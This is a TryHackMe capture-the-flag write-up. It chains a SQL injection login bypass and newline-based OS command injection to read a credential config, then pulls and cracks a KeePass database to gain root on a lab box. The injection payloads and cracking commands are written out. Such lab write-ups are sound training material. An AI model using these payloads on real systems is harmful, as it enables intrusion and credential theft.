









# TryHackMe - Silent Monitor

## Overview

**Room:** Silent Monitor  
**Platform:** TryHackMe  
**Difficulty:** Medium  
**Focus:** Web Enumeration, SQL Injection, Command Injection, Remote Code Execution, Credential Disclosure, SSH, Password Cracking, KeePass, Privilege Escalation

---

## Attack Path

The compromise followed this chain:

```text
Nmap Enumeration
        ↓
Web Application Discovery
        ↓
Gobuster Enumeration
        ↓
SQL Injection
        ↓
NOC Operations Portal Access
        ↓
Audit Log Enumeration
        ↓
Command Injection
        ↓
Remote Code Execution
        ↓
Sensitive File Disclosure
        ↓
Credential Disclosure
        ↓
SSH Access as sysadmin
        ↓
KeePass Database Discovery
        ↓
KeePass Password Cracking
        ↓
Root Credential Disclosure
        ↓
Privilege Escalation to root
        ↓
Root Flag
```

---

# 1. Initial Enumeration

I started by performing a standard Nmap service and version scan against the target:

```bash
nmap -sC -sV <TARGET_IP>
```

The scan identified two particularly interesting services:

- **Port 22/tcp** - SSH
- **Port 5050/tcp** - HTTP



I immediately focused my attention on the web application running on port 5050 and started investigating it.

---

# 2. Web Application Enumeration

After manually inspecting the web application on port 5050, I discovered that it was effectively a dead end because I could not interact with anything useful on the page. I therefore moved on to directory enumeration using Gobuster.

```bash
gobuster dir -u http://<TARGET_IP>:5050 -w /usr/share/wordlists/dirb/common.txt
```

The scan discovered a single interesting path:

```text
/internal
```



The `/internal` directory was an interesting find because it opened a sign-in page for the NOC operations portal.

---

# 3. SQL Injection

At first, I did not have any means of gaining initial access to the NOC portal because I did not have a valid username or password. Therefore, I changed my approach to validating the input sanitization of the sign-in portal.

The username and password fields were being passed directly to the database, which allowed me to perform a **SQL Injection**.

```text
Username : ' OR 1=1--
Password : 'text'
```



This vulnerability allowed me to bypass authentication and gain unauthorized access to the NOC operations portal.

### Vulnerability

**SQL Injection**

A vulnerability where untrusted user input is directly concatenated into a database query rather than being parameterized. This allows an attacker to manipulate the query structure and inject malicious SQL commands, enabling them to bypass authentication, access unauthorized data, or modify database records.

---

# 4. NOC Operations Portal Enumeration

After gaining initial access to the portal, I checked the available operations and monitoring tools hosted on the web application. These included:

```text
Overview
Host Health - Connectivity Probe
Audit Logs
Services
```

Something very interesting stood out as I read through the Audit Logs. The logs contained records from connection probes initiated through the Health Check operation.

A previous user named `devops` had entered suspicious commands into the connection prompt, including:

```text
127.0.0.1%awhoami
127.0.0.1%0awhoami
```

The `devops` user appeared to be attempting command injection to achieve RCE by introducing a newline using the `%0a` URL encoding and attempting to make the server process the injected command separately.

This was my cue to investigate the Health Check functionality further.

---

# 5. Burp Command Injection

I went to the Health Check operation and entered `127.0.0.1` into the input field. The ping request was processed successfully and the output was displayed directly on the screen.

I then attempted the command injection previously used by the `devops` user:

```text
127.0.0.1%0awhoami
```

The application returned an error:

```text
ping: 127.0.0.1%0awhoami: Name or service not known
```

I then opened Burp Suite Proxy to capture the web traffic as it left the application.

To ensure the request itself was valid, I changed the input back to `127.0.0.1` before capturing it. After capturing the request, I sent it to Burp Suite Repeater and changed the input back to:

```text
127.0.0.1%0awhoami
```

I then sent the modified request.


After inspecting the response, I received the output of the injected command. This confirmed that I had achieved **Remote Code Execution**.


I then tested whether sensitive files were accessible by changing the request to:

```text
127.0.0.1%0als
```

The response revealed four files:

```text
app.py
netops.db
secret.config
templates
```

I then used the same command injection technique to read the `secret.config` file:

```http
127.0.0.1%0acat%20secret.config
```

The response contained:

```text
rtt min/avg/max/mdev = 0.022/0.027/0.032/0.005 ms
# netops application config
# generated: 2026-01-03

[database]
path    = /opt/netops/netops.db
timeout = 5

[app]
host     = 0.0.0.0
port     = 5050
log_path = /var/log/netops/app.log

[auth]
session_lifetime = 1800

# service account used by the backup agent
# TODO: migrate to secrets manager before Q2 audit
[backup_agent]
run_as   = sysadmin
password = <REDACTED>

[smtp]
host = 127.0.0.1
port = 25
from = noc-alerts@corp.internal
```



From the `secret.config` file, I extracted credentials that could be used to access the `sysadmin` account:

```text
run_as   = sysadmin
password = <REDACTED>
```

### Finding

**Command Injection / Remote Code Execution**

The Health Check functionality passed user-controlled input to a system command without properly sanitizing or validating the input. By injecting a newline and an additional command through the request, I was able to execute arbitrary commands on the target server.

### Vulnerability

**OS Command Injection**

The application incorporated user-controlled input into an operating system command without sufficient input validation. This allowed an attacker to break out of the intended command context and execute arbitrary commands with the privileges of the web application.

---

# 6. SSH Login

I opened my terminal and used SSH to log into the `sysadmin` account:

```bash
ssh sysadmin@<TARGET_IP>
```

Using `ls` to inspect the `sysadmin` home directory, I discovered a file containing the first flag and a directory containing information related to obtaining root access:

```text
user.txt - THM{REDACTED}
/backups
```



After obtaining the first flag, I shifted my focus to the `/backups` directory. It contained two files:

```text
README.txt
infrastructure.kdbx
```

The `infrastructure.kdbx` file was not directly readable because it was encrypted. However, the `README.txt` file contained the following information:

```text
Backup archive — infrastructure credentials

Periodic exports from the credential store are placed here by the backup agent.
Treat all files in this directory as CONFIDENTIAL.

infrastructure.kdbx — KeePass credential database

Contact the sysadmin team lead if you require access.
```

The README explained that `infrastructure.kdbx` was a **KeePass** credential database used to store credentials. This suggested that if I could open the database, I might be able to obtain credentials for a more privileged account.

> **Flag 1:** `THM{REDACTED}`

---

# 7. Password Cracking

I first used `scp` to copy the `infrastructure.kdbx` file to my own machine:

```bash
scp sysadmin@10.48.156.155:backups/infrastructure.kdbx .
```

When I attempted to use `keepass2` to read the contents of `infrastructure.kdbx`, I was prompted to install the tool using `apt install keepass2`. However, I did not have administrative privileges to install the package.

I therefore decided to host a Python HTTP server from the `sysadmin` terminal so that I could download the file to my own machine:

```bash
python3 -m http.server 8000
```



I opened my own terminal and used `wget` to download the file through the hosted server:

```bash
wget http://<TARGET_IP>:8000/infrastructure.kdbx
```

The file downloaded successfully. However, when I attempted to open it with:

```bash
keepass2 infrastructure.kdbx
```

I discovered that the database required a master password, which I did not have.

I therefore needed to crack the correct password before I could open the database.

I used `keepass4crack.py` to crack the password for the `infrastructure.kdbx` file:

```bash
python3 keepass4crack.py infrastructure.kdbx /usr/share/wordlists/rockyou.txt
```

The password was successfully recovered:

```text
spring
```

I then used the password to open the KeePass database:

```bash
keepass2 infrastructure.kdbx
```

After entering the password `spring`, I was able to access the stored credentials.



The password itself was not directly visible, but I was able to copy it using the application's built-in copy function.


This provided the credentials required to access the `root` account.

### Finding

**Weak KeePass Master Password**

The KeePass database was protected by a password that could be recovered using a wordlist-based password-cracking attack.

---

# 8. Elevating Privileges

With the password required to access the **root** account, I elevated my privileges using:

```text
su root
Password: <REDACTED>
```



After obtaining root access, I navigated to the root user's home directory where the `root.txt` flag was located.

```bash
cat root.txt
```



> **Final Flag:** `THM{REDACTED}`

This completed the compromise, progressing from initial web enumeration and SQL injection to command injection, remote code execution, credential disclosure, SSH access, KeePass password cracking, and finally privilege escalation to root.

---

# Attack Chain Summary

The complete attack path I followed to compromise the Silent Monitor machine was:

```text
Nmap Enumeration
        ↓
Web Application Discovery
        ↓
Gobuster Enumeration
        ↓
SQL Injection
        ↓
NOC Operations Portal Access
        ↓
Audit Log Enumeration
        ↓
Command Injection
        ↓
Remote Code Execution
        ↓
secret.config Disclosure
        ↓
sysadmin Credentials
        ↓
SSH Access
        ↓
KeePass Database Discovery
        ↓
KeePass Password Cracking
        ↓
Root Credential Disclosure
        ↓
Privilege Escalation
        ↓
Root
```

---

# Key Vulnerabilities

| Vulnerability                      | Impact                                                                            |
| ---------------------------------- | --------------------------------------------------------------------------------- |
| Directory Enumeration              | Exposed the internal NOC operations portal                                        |
| SQL Injection                      | Allowed authentication bypass and unauthorized portal access                      |
| OS Command Injection               | Allowed arbitrary command execution through the Health Check functionality        |
| Remote Code Execution              | Provided direct command execution on the target                                   |
| Sensitive Configuration Disclosure | Exposed credentials for the `sysadmin` account                                    |
| Credential Exposure                | Allowed SSH access to the `sysadmin` account                                      |
| Insecure Backup Exposure           | Exposed the encrypted KeePass credential database                                 |
| Weak KeePass Password              | Allowed the database master password to be cracked                                |
| Credential Disclosure              | Exposed credentials for the `root` account                                        |
| Weak Privilege Separation          | Allowed the recovered root credentials to be used for direct privilege escalation |

---

# Lessons Learned

The Silent Monitor attack chain demonstrates how multiple weaknesses across a web application and the underlying host can be chained together to achieve complete system compromise.

The initial attack surface consisted of a web application exposed on port 5050. Directory enumeration revealed an internal NOC operations portal that did not properly protect its authentication mechanism. A SQL injection vulnerability in the login functionality allowed authentication to be bypassed and provided access to the portal.

Once inside the NOC operations portal, the Audit Logs provided an important clue about a previous attempt to exploit the Health Check functionality. The logged input revealed that the `devops` user had attempted command injection using URL-encoded newline characters. This provided a clear direction for further testing.

The Health Check functionality was vulnerable to OS command injection because user-controlled input was incorporated into a system command without adequate sanitization. By capturing the request with Burp Suite and modifying it in Repeater, arbitrary commands could be executed on the server. This resulted in remote code execution and allowed files on the system to be enumerated.

The `secret.config` file contained credentials for the `sysadmin` account. Reusing these credentials provided SSH access to the target and allowed the first flag to be retrieved. The `sysadmin` account also had access to a `/backups` directory containing an encrypted KeePass database.

The KeePass database contained more privileged credentials but was protected by a weak master password. The password was successfully recovered using a wordlist-based cracking technique. Once the database was opened, the stored root credentials could be retrieved.

The recovered root password allowed direct privilege escalation using `su root`, providing access to the final flag and completing the compromise.

The main lesson from Silent Monitor is that seemingly separate weaknesses can form a complete attack chain. SQL injection provided initial access, command injection provided code execution, configuration disclosure exposed credentials, insecure backup handling exposed a credential database, and weak password protection ultimately exposed root credentials. Individually, these weaknesses had different levels of impact, but when chained together they allowed an attacker to progress from an unauthenticated web application to complete root-level access.